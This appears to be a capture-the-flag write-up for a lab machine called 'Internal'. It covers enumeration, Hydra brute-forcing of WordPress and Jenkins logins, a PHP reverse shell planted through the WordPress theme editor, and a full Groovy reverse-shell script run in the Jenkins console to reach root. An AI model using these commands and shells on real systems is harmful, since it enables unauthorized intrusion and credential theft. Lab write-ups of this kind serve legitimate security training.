




# Enumeration
We start our autorecon scan, and immediately find ports 22 and 80 open.


At the same time, we run a full nmap scan together with a detailed nmap scan of ports 22 and 80.


If we navigate to the web server, we find the Apache2 Ubuntu default page. Let's start a gobuster scan with:

```bash
gobuster dir -u http://10.10.150.93 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x .txt,.html
```

We find a few interesting directories.


Navigating to `/wordpress` greets us with an error page. The `/phpmyadmin` directory points us to a login page for phpMyAdmin, which is an administration tool for MySQL and MariaDB written in php.


Let's also try the `/blog` directory. Here, we find some content.


The webpage does not seem to be displaying properly, but we can fix this. Note that the "Hello world!" link refers to the `internal.thm` domain. Let's add `internal.thm` to the hosts file using `sudo nano /etc/hosts`. 


Refreshing the page fixes the above issue.


Clicking on the post for more details, we see that it was written by `admin`.


We can also find a link to the WordPress login page.


We can try brute forcing the login using Hydra. Note that if we enter a random login name, we get a confirmation that the user we entered doesn't exist. This confirms that `admin` is a possible username.




Now run Hydra with:
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt internal.thm http-post-form "/blog/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered" -v -t 32
```

Eventually, we find the admin's password, which we can use to log in.


<br>

# Exploitation
After logging in to the admin's account, we are asked verify the administration email.



None of the links seem to work, so we simply click "Back to Internal". Now that we are logged in as this admin, we have a few more things to investigate. If we use the toolbar, we can navigate to Internal > Themes > Appearance > Theme Editor.


Notice that we can edit the php of some of the templates here. Let's replace the contents of the `404.php` file with a php reverse shell script. We can use [Pentestmonkey's php reverse shell script](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Make the appropriate changes to the script, update the 404 Template file. Now set up a netcat lister with `rlwrap nc -lvnp 9999` and navigate to `http://internal.thm/wordpress/wp-content/themes/twentyseventeen/404.php`. We see that this gives a reverse shell, and so we have an initial foothold.


Let's upgrade our shell with `python -c 'import pty; pty.spawn("/bin/bash")'`. Looking around the file system, eventually we find another user: aubreanna.


Unfortunately, we don't have access to aubreanna's home directory. Let's go back to the admin's WordPress dashboard, since there was something there that we overlooked. Looking around a bit, we eventually find a private post containing another pair of credentials.


At this point, we try using these credentials in the three places we've found so far that accept logins (ssh, WordPress login, and phpMyAdmin), but it doesn't get us anywhere.

Going back to our shell, we look around the file system a bit more. Eventually, we notice that the `/opt` folder contains some interesting files, one of which contains the password for aubreanna's account.


Making a guess, we try ssh'ing into aubreanna's account with the password we just found.


Success! We can now obtain the `user.txt` flag.


<br>

# Post-Exploitation
Along with the `user.txt` flag, we found a `jenkins.txt` document.


In order to access this internal Jenkins server, we'll use ``ssh -L 8080:172.17.0.2:8080 aubreanna@<target IP>``.


This gives us access to a Jenkins login page via `127.0.0.1:8080`.


None of the credentials we found earlier work, so let's try brute forcing the login page with Hydra. First, we'll need to capture the login request with BurpSuite. Note that we are using port 8080 to tunnel into the Jenkins server; BurpSuite uses port 8080 by default, so make sure to change it temporarily to something else.

```txt
POST /j_acegi_security_check HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 53
Origin: http://127.0.0.1:8080
Connection: close
Referer: http://127.0.0.1:8080/loginError
Cookie: JSESSIONID.ccd20f87=node0sd4rv554nryq1a1o7omhif7ih0.node0
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

j_username=ad&j_password=pswd&from=%2F&Submit=Sign+in
```

Now we can use this to craft the Hydra brute force attack. The default username for Jenkins is `admin`, so we'll use that for our username. The passwords will come from the `rockyou.txt` wordlist. Now we run:

```bash
hydra -s 8080 127.0.0.1 http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^:Invalid username or password" -l admin -P /usr/share/wordlists/rockyou.txt -t 32
```

Eventually, we find a valid pair of credentials.


Now that we have access to Jenkins, we can run commands using a Groovy script. To set this up, from the Jenkins homepage we navigate to Manage Jenkins > Script Console. I found this script [here](https://pentestbook.six2dez.com/enumeration/webservices/jenkins). 

```txt
String host="<attacking IP>";
int port=<listening port>;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```


Now set up a netcat listener, press "Run" on the script console, and catch the reverse shell.


We can start by upgrading our shell with `python -c 'import pty;pty.spawn("/bin/bash")'
`. Looking around, we eventually find a `note.txt` in the `/opt` directory.



The root credentials! We can try ssh'ing into the root user's account, and we find that this works. Using this, we finally gain access to the `root.txt` flag.



